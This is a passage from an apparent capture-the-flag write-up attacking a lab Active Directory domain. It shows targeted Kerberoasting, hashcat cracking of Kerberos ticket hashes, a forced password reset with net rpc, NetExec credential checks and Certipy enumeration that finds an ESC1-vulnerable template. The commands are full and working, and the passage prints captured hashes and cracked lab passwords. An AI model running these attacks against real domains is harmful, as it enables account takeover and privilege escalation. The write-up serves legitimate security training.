0fb25630812194ce7f395ff87f8263066597ea34c36bfd167acbb12aa060eee424268b74834a6fdbdc2fe9ac0b233ebcf4d584a7522024b854fd11c096f88f8d1b02095a9a6ffa47200211f3bfd7c40a760a4b82bbe09def8810eaa6d5877c3ddb5d43352d0cf003e1ad5024c1c45d6473d0ce8bf1a7ac9710f286cfc14e1951cc1eaed4c1f53fb6a05a079a6f2c270e3bd35e4a7e10047801bfe77ddce27ef4fd301d91ef49529fe2f9acdfd218a1e518b8c371ba955bd31ad8f678bb2e268e3853f8d593ef83e2f014f60a0e211aa4a853381a44e1442bce68367fa32eda43a60fb4f4fc54fb192b0b12980d661c5f778f39042977ec96f65272a72933b17e551797d362ef38b77ba2a32ff8e2e70e26a0335ef133589ebfe36e460d8782f3ccd38dce51b118b97657f520b1c7f1b1a45b2a138753eb091354859d59f30b20d0b2806985f00b0cbbb3a77c0e7d65b79318220051ca7c9f530a32f1e74426745153a47b80e632bbceaf55eb7e0e9ef242c4660c242c7c824028628c2968e5e9d967cde9a2ea2f5b0efbe1b053a1e622cdba110b5818456a731f52775ad9dc3a8ae756379c11a3a73f5f599a9b58eb5626bde8008b390d07a7de11e7c36636f34cb1b1ba7288a95394d0a1ab636e0d04908fedd2f24097bdb75184e711234dc613f553b35085fe07d67b4429dad0c5ca495d4cc8b746cabcf8adac5f72cf7ca66d2b40323f1b5c667fa95f4fd9e6d8460ebcef488cd758e7bfed2294fa228584427fb929da80cafb45eb352f8b102d7c563995
[VERBOSE] SPN added successfully for (Yorinobu)
[+] Printing hash for (Yorinobu)
$krb5tgs$23$*Yorinobu$HACKSMARTER.LOCAL$hacksmarter.local/Yorinobu*$5c802e04ddce0cbf9db019bb3b587c0d$754bb36a207e97756279363978d0f2a7c7be25822d2dd36564641baba5c0abffbfe17b542ffa429f489d2275adc5187842c0c9eea22ea448847a92d09fe19c29214b2ab53c466cbd76a0b43dd3b78af4eb4be79dd2b60ef1f52b9ec483909fa4e2939f2643907f1ed52750daa37c821348a68d00e6880d84b26819dc970cdad519f61f7b7dcd42e471642ff1c3e592d8685358f6d065a59870365a989763904fb74bbf0152c15eb09676258f748cb1d62abdfe47f10006b667f5763b1d71ad988d52965aab5704ef5eb8fe088bb731d804fbe6fbe47c74d468d7053ffb4f1da347cf75a0eb77e8a88abb044d590af27526ad8fcfcfac5c97dc03b4ea2e047eed448111abd0fa9853d6e2326e65bf028fd96c260d6f20d61b29f49c783a04d830f030edf363619e4bfa83681d5985a4378fc85efc322062e6fd171ff34df093db9e7ac72923c1a69dadd0c6d105f73423b781232f7487a1c8193fb60c1e8de7cd2f7ad9d8abfe3367e4fa3b89247f530429885e479b25958d96d276957a36e347eb444ab66caf572ed7742d6869d78cd0b1a2a697547b46b2f55ce7aab7cb3085f1b973570b795db6dcd792fdacda774d544dd31088f332e155d776b6995d0848dc7874ac3989fdf776c1e373f037f304d76a9576d46b259f623a02c44e9c1b6e1bb5a43dc3ffc238d63ae3fa0f175e48427c1ea6ee48b89cc366fb971cee9635c93f7e917d198b1931e308ce548d6c2e8bf8161fc5250d3b999b51c971a1e6e716a601848ab2e1babcc398a2f8db255f285bf56ab7040dfef71574c4be7b9864b6f9d607b163b03f77a551a386e2ac49ce14c1a0fd0e51ae5f2ac28286bf3289f951d7fa36b9cc4e9246741b9ce7e274f4ea0d4dccbc1db017d4582073c474c357cd64af8941ad8e117a6ff3ddb3d75ce9b4257e82ae79267350c6b06fb93ba7900a2ed956c803534eef3c9e93f0a4683d6355c246c0d266c5191cbbc23af512dd3bd6e842b9d0e4880976fe25f95f0e5b04ac96939d798e7ffb0203330c1d9e178c0c674e74155cdd316095eee236f382d097bf45b69557964519da6022e83af158f1fd03f57a33ccbc3457b98548cf92e57763c18201b07f3690858a6e84626c56ff3a91f88d1107cf9d6da48e0b46c608c86759d290a5e9c7b895a21e061d82aa883e9bb0a85c6f6cf8679fc3342a7282ebaff95e8abc56f867e19fcf6cc990e038f1093e4b2c3d9db4928f0e022a3aa970d6741400b7db9b5337542266dd0c1b6546a26c0e4f330edef99428c9e30ac9adf20a1c7fc5586e0f3be15a0bde52b2a72782d0691b062db5b3b16ce203897f1197003de6d9edfc0f68630bc8c2fffe691b53dfbefda031883399b2eb992afdd9a55ad99bf3e543e61471fcdab47a4c60b0ad0f42259eee91afc2a076fb1e4cff0d9e406cdd35a1ab54eb5f5f2d1381d6622e9d5e57ac500c88f0d53cdb444ae2ef355a26d8a51a72df2f7b392468eec5b8c9f098e126fe4ec2de5a834524ae8f9b99b0d21c62a239a6502d6c087ea8e2e26e53b1b954
[VERBOSE] SPN removed successfully for (Yorinobu)
```



*Targeted Kerberoast: SPN set on Yorinobu and TGS hash captured*

The tool roasts every SPN account it can, including `alt.svc` again, but the hash we care about is `Yorinobu`. We drop it into `yorinobu_hash.txt` and try to crack it with Hashcat.

```
hashcat yorinobu_hash.txt /usr/share/wordlists/rockyou.txt
```



*Hashcat exhausts the wordlist with no crack for the Yorinobu hash*

No luck. `Yorinobu`'s password is not in `rockyou.txt`. Since we have `GenericAll` and not just an SPN write, we have another option.

## Access as Yorinobu

`GenericAll` also lets us reset the target's password outright without knowing the current one. We fall back to a Force Password Change and set a new password on `Yorinobu` with `net rpc`.

```
net rpc password "yorinobu" "0xB1rdWasHere1337" -U "hacksmarter.local"/"alt.svc"%"babygirl1" -S "10.0.21.50"
```



*Force Password Change on Yorinobu via net rpc (no output indicates success)*

The command returns silently, which typically means success. We validate the new credentials with NetExec.

```
netexec smb hacksmarter.local -u 'yorinobu' -p '0xB1rdWasHere1337' --shares
```

```
SMB         10.0.21.50    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.21.50    445    DC01             [+] hacksmarter.local\yorinobu:0xB1rdWasHere1337 
SMB         10.0.21.50    445    DC01             [*] Enumerated shares
SMB         10.0.21.50    445    DC01             Share           Permissions     Remark
SMB         10.0.21.50    445    DC01             -----           -----------     ------
SMB         10.0.21.50    445    DC01             ADMIN$                          Remote Admin
SMB         10.0.21.50    445    DC01             C$                              Default share
SMB         10.0.21.50    445    DC01             IPC$            READ            Remote IPC
SMB         10.0.21.50    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.21.50    445    DC01             SYSVOL          READ            Logon server share 
```


*NetExec confirming the new Yorinobu credentials*

We now control `Yorinobu`. Back in BloodHound we mark the account as owned and review its outbound rights.

## BloodHound Enumeration (Part 2)

Reviewing `Yorinobu`'s outbound object control, the account holds `GenericWrite` over `Soulkiller.svc`. `GenericWrite` does not let us reset a password like `GenericAll` does, but it does let us write attributes on the account, including an SPN. That is exactly what a Targeted Kerberoast needs, so we roast `Soulkiller.svc`.



*BloodHound GenericWrite: Yorinobu over Soulkiller.svc*

## Targeted Kerberoast (Soulkiller.svc)

```
python3 targetedKerberoast.py -v -d 'hacksmarter.local' -u 'yorinobu' -p '0xB1rdWasHere1337'
```

```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (alt.svc)
$krb5tgs$23$*alt.svc$HACKSMARTER.LOCAL$hacksmarter.local/alt.svc*$349d4f0582b9b5a037c2f4573833ae0a$935054ac947ddec70b8f2e17ac5eb2147f2800f93777a3f2a58c998f8ad32e401c9ddb66c56d2e3af22b40fb4581b3228e9e356f6250355fb701222b8504bf9c5b0e8e82566b15d75fcf1781f23596efab4bc789545bc687368917e18c27e9a61a22f91ddb520168697848b7d65a0666b3a0e598ec8b63f1d31a99e1be428603959caf82abddccca6852f1c3acb0003aa7fc001cb4b6dbf7bfbd8c30ec918d3eb137b3c02c899b56f211cd6a004282af096f9f28d776e80a300da64be62807b72f04cd5cb3af8a826f90be3a88871311ea0d8c8fdf3e63a3bc77a444697026e43a5464acbc95ef8141d4b84da5413595aaaaa364198ff49d8222f1e2972acc70f881dc301e7c379d3e48d7a2b505eb86cb89db5f2d741a29b417a986642c02f8d400ca645bc0aa672117491a53b9ccf00f0d6642082cc0f4a6997ff877e4a97ce7704508000c6befbc8effd404892d5096f8273c67c5d2fedd01f3f33a9b1eb4e2c4eb18b0ee85f1b58bf6334b041268bc8bc3c0f60e81c1d65cac35301f5184d2971f3bc736a9a95fbcff100ff7268245edced2951060015cf52a7cbd0f111921acd0cd03cbee9e19430049b33190d399df3e6c1711e459fa24912d0c4b80e6993e1937f1e1f53a6b4fa8f7c84cf82690838182b6b4f344d1b36f73ea0c7db59011177fcdce2cfee5586e7d7b30e0b38813adefd8c2c6a9018a6c077cf679a6101f1965366006e14a5ef10d896c3bb604aeafdf53796cf5e11b9b6d343e7dcb7ae12f5ee5e69b7060186b493eef869d6106b56e587eab00b1399ed6e728f05f8ad99bcccb1313b2907bb3e887ca7ffcca2b3c268969d7feed9092de26cdadb52af4955753fc0e775ecc6acf06c0314fa830d8b04236a288019a6da4f8ffe4375edcc96b23ba4c4fda76d291bcd08bd0eca5e5b024731568be641498d9ff64151e10851af394d4e0878e37983d873926d25ef6fb41b409d95a48714374131399235400e78d6fedb34d5156cc95f54180741a9587d1d2f6a28b7a2bc20ccb9f2a24e36be5babf1c511868ffc831fe50418d2a073fc91600c4ca27700795c3e4218a3ca23f4d62a08cde4a8b77c3b07e27fc017bf9544242e7e4d75911bf5f62b9ce5b7000922f96067d845c7b777fc73920a3f400ecc4828867003a116cad2d05618e58bd4fb18ca85890fcd77cd990976b1d0b895927072507b5c50ad6b34f296184c047f7471231343ec94e5ad400a33187f3320d725e5e5720271d376da373cf740028d9644d0b10f2b7b2f6ad46e2e64ac13bf4488214588b9bc54356d931d5fb9eb82ab09a5083da0a996552353372c8491cd45e8e1aaf91307f0376cbde940b4ce120e4774b3ff79c2890bea17f27b7cc42714cf5e26af32ac9fdbfab49045e89249470499a3d861183d1f5ba2b64dc46c89c43f8ab714a20898cd2ba30be56dc337d747e79f1a4a6582202237706a42ea512d15fae67af12388c3a9765995ed59227e3f49ffa3dd29cfe6dc316b7a4806e30981792416cfaf662e85155ad9290287f9351dce0352f1a576c502f5099
[VERBOSE] SPN added successfully for (Soulkiller.svc)
[+] Printing hash for (Soulkiller.svc)
$krb5tgs$23$*Soulkiller.svc$HACKSMARTER.LOCAL$hacksmarter.local/Soulkiller.svc*$9c78cf5e575021e55ead47aafae00196$00da501731528fb77b725c0ca8f1e0909b554c1e997a14139dcbd2d099499574e727a5c6741eb9683e65c56a8cab0adfb1e5f0f76fee532a695338adbcc5e55ab7d43c230686a3e383bf945977b3b55ce5d38cbd010b770fcbf6f66d27b5b0a407f2f7815ca7dd6a896826032cb6a2099c03a34afc6a5ed6f17b5c55132b26e40f026b64ba62eab707e83f1c3df52a32aa3e33530dc9e38c47901e275292c40e92c3924ef040cbe7eee18f12fb91928e2ffa0707c063eb21660525e7d139177946b9f7931513e0038280eb9a77960ba239c2d70ed56c4ca1839227c0b97a945cb6ffca25fb171dbbc2f6c9ab741afcac35d62d56bbf312b97f3265452c10c096570678b354de0829bc3055e544ea1e848d2a727e3a4a69ad5a24155e179696f5d03ffd886fe84ed97e03c4602493c06b687a9d54810422c5ee6aa5d2967cfd5bdba3d566e94f245593c832141b6665514ad91cdafb4127e618a92950d954cf6831f44798063d9bf46ed407322bc7e14e653398d9e3f1bc6328284ed3fff524dbef78dc51d2571b302502ecf26ed15c38ba77e0dce712f567c53de673feaef14011c13a12faff626c8cb0d141967f39bbbf94e98cdaa2073f3dc5d8eed7a6a2825ced1c6e400735817431011289b57a7509a23ddb428cf09f7ed35ddf2c39bae61f3f235a9ca7d48b572f51dd37164e72e7f3da8067748e2c9a2e1346c28704ebfc5f53f6e9155f64e656455c967c4ecb9032767794e3a4be56272543f6ab67bb7be12a20ea94c0771a7beee9f3a64f812c4b79b5d53f028158d53e1158753fd7911bf7fcb9275c008f1fa92bfd66ac3d5af511d0c3670bf86e2d8db40146e2b735a3728ed27e278bdfd06f471d3d7258191d5467713c4e5c2fa592db644982c6a289ad48b84bbbba861c77418cfdd4be4980b9a8272445ddc7f624d0d84871ad410ee32711e8533c709856e37fa632950fec89f550c5e63a5d4f9ced66937ad2f4da54bbf31e9f43e8372c1899212f5289afebd6aa0809ea4ced107a5dafda6700808d0f60bbf4860117daeafb0fb363b7cb79b14b195687d4e5c6488d1d932177901e9894b545b8be9a044926bb4b7623fd502f8d7edcdcdd430f5b22379e787db3ea1ae78f70475180575d2687b0c6b3a775d0cdc0a7dddbfaaa2996f8e2016862173e073b6282e1c6363e3281f0d04552687f14ba987eb2dab8b365bb3fdeb458643f564037f398e9ea9926738de455b8fee4a036688c2f7933c395eeba3cdf9940991e58410dfa09685c72ef41f8fd658d86a784bd3b0c0d07a552223410624d7660b9f2c3adc653057f4612741a18dbde95d115d7bedf06322974f67b78d7b37a280939743107c34eee118b5ad2e73e128f1f0ad8125a89595a2484a2d4022a531be569a92c2feed9685d334074c84ab0511e9fdf69e24482056febafc8ec8be843e1f939cd4e805205faf304286d469f57223c4098f2d4187d1d902fc2f24d8651577c04028c37672709555abda61aa6c749aa07e5dd1910cc7bba2c9ab8aec1c38de721a81aa0ef3b98157109b366
[VERBOSE] SPN removed successfully for (Soulkiller.svc)
```



*Targeted Kerberoast: SPN set on Soulkiller.svc and TGS hash captured*

Same pattern, and the hash we want is `Soulkiller.svc`. We save it to `soulkiller_hash.txt` and crack it with Hashcat.

```
hashcat soulkiller_hash.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5tgs$23$*Soulkiller.svc$HACKSMARTER.LOCAL$hacksmarter.local/Soulkiller.svc*$9c78cf5e575021e55ead47aafae00196$00da501731528fb77b725c0ca8f1e0909b554c1e997a14139dcbd2d099499574e727a5c6741eb9683e65c56a8cab0adfb1e5f0f76fee532a695338adbcc5e55ab7d43c230686a3e383bf945977b3b55ce5d38cbd010b770fcbf6f66d27b5b0a407f2f7815ca7dd6a896826032cb6a2099c03a34afc6a5ed6f17b5c55132b26e40f026b64ba62eab707e83f1c3df52a32aa3e33530dc9e38c47901e275292c40e92c3924ef040cbe7eee18f12fb91928e2ffa0707c063eb21660525e7d139177946b9f7931513e0038280eb9a77960ba239c2d70ed56c4ca1839227c0b97a945cb6ffca25fb171dbbc2f6c9ab741afcac35d62d56bbf312b97f3265452c10c096570678b354de0829bc3055e544ea1e848d2a727e3a4a69ad5a24155e179696f5d03ffd886fe84ed97e03c4602493c06b687a9d54810422c5ee6aa5d2967cfd5bdba3d566e94f245593c832141b6665514ad91cdafb4127e618a92950d954cf6831f44798063d9bf46ed407322bc7e14e653398d9e3f1bc6328284ed3fff524dbef78dc51d2571b302502ecf26ed15c38ba77e0dce712f567c53de673feaef14011c13a12faff626c8cb0d141967f39bbbf94e98cdaa2073f3dc5d8eed7a6a2825ced1c6e400735817431011289b57a7509a23ddb428cf09f7ed35ddf2c39bae61f3f235a9ca7d48b572f51dd37164e72e7f3da8067748e2c9a2e1346c28704ebfc5f53f6e9155f64e656455c967c4ecb9032767794e3a4be56272543f6ab67bb7be12a20ea94c0771a7beee9f3a64f812c4b79b5d53f028158d53e1158753fd7911bf7fcb9275c008f1fa92bfd66ac3d5af511d0c3670bf86e2d8db40146e2b735a3728ed27e278bdfd06f471d3d7258191d5467713c4e5c2fa592db644982c6a289ad48b84bbbba861c77418cfdd4be4980b9a8272445ddc7f624d0d84871ad410ee32711e8533c709856e37fa632950fec89f550c5e63a5d4f9ced66937ad2f4da54bbf31e9f43e8372c1899212f5289afebd6aa0809ea4ced107a5dafda6700808d0f60bbf4860117daeafb0fb363b7cb79b14b195687d4e5c6488d1d932177901e9894b545b8be9a044926bb4b7623fd502f8d7edcdcdd430f5b22379e787db3ea1ae78f70475180575d2687b0c6b3a775d0cdc0a7dddbfaaa2996f8e2016862173e073b6282e1c6363e3281f0d04552687f14ba987eb2dab8b365bb3fdeb458643f564037f398e9ea9926738de455b8fee4a036688c2f7933c395eeba3cdf9940991e58410dfa09685c72ef41f8fd658d86a784bd3b0c0d07a552223410624d7660b9f2c3adc653057f4612741a18dbde95d115d7bedf06322974f67b78d7b37a280939743107c34eee118b5ad2e73e128f1f0ad8125a89595a2484a2d4022a531be569a92c2feed9685d334074c84ab0511e9fdf69e24482056febafc8ec8be843e1f939cd4e805205faf304286d469f57223c4098f2d4187d1d902fc2f24d8651577c04028c37672709555abda61aa6c749aa07e5dd1910cc7bba2c9ab8aec1c38de721a81aa0ef3b98157109b366:MYpassword123#
```



*Hashcat crack for Soulkiller.svc: password recovered from the TGS-REP hash*

Cracked. We have `Soulkiller.svc:MYpassword123#`. Let's verify.

## Access as Soulkiller.svc

```
netexec smb hacksmarter.local -u 'soulkiller.svc' -p 'MYpassword123#' --shares
```

```
SMB         10.0.21.50    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hacksmarter.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.21.50    445    DC01             [+] hacksmarter.local\soulkiller.svc:MYpassword123# 
SMB         10.0.21.50    445    DC01             [*] Enumerated shares
SMB         10.0.21.50    445    DC01             Share           Permissions     Remark
SMB         10.0.21.50    445    DC01             -----           -----------     ------
SMB         10.0.21.50    445    DC01             ADMIN$                          Remote Admin
SMB         10.0.21.50    445    DC01             C$                              Default share
SMB         10.0.21.50    445    DC01             IPC$            READ            Remote IPC
SMB         10.0.21.50    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.21.50    445    DC01             SYSVOL          READ            Logon server share 
```



*NetExec confirming valid credentials for Soulkiller.svc*

Credentials confirmed. Back in BloodHound we mark `Soulkiller.svc` as owned and review its group memberships. The account is a member of `Certificate Service DCOM`, which points squarely at AD CS abuse. Let's enumerate the CA with Certipy and look for vulnerable templates.



*BloodHound showing Soulkiller.svc membership in Certificate Service DCOM*

## Certipy Enumeration

We run [Certipy](https://github.com/ly4k/Certipy) to enumerate the Certificate Authority and check for vulnerable templates.

```
certipy-ad find -u 'soulkiller.svc' -p 'MYpassword123#' -dc-ip 10.0.21.50 -vulnerable -stdout
```

```
Certificate Authorities
  0
    CA Name                             : hacksmarter-DC01-CA
    DNS Name                            : DC01.hacksmarter.local
    Certificate Subject                 : CN=hacksmarter-DC01-CA, DC=hacksmarter, DC=local
    Certificate Serial Number           : 1DBC9F9ECF287FB04FDE66106578611F
    Certificate Validity Start          : 2025-09-21 15:32:14+00:00
    Certificate Validity End            : 2030-09-21 15:42:14+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : HACKSMARTER.LOCAL\Administrators
      Access Rights
        ManageCa                        : HACKSMARTER.LOCAL\Administrators
                                          HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        ManageCertificates              : HACKSMARTER.LOCAL\Administrators
                                          HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        Enroll                          : HACKSMARTER.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : AI_Takeover
    Display Name                        : AI_Takeover
    Certificate Authorities             : hacksmarter-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-09-21T16:16:36+00:00
    Template Last Modified              : 2025-09-21T16:16:36+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : HACKSMARTER.LOCAL\Soulkiller.svc
                                          HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : HACKSMARTER.LOCAL\Administrator
        Full Control Principals         : HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        Write Owner Principals          : HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        Write Dacl Principals           : HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
        Write Property Enroll           : HACKSMARTER.LOCAL\Domain Admins
                                          HACKSMARTER.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : HACKSMARTER.LOCAL\Soulkiller.svc
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

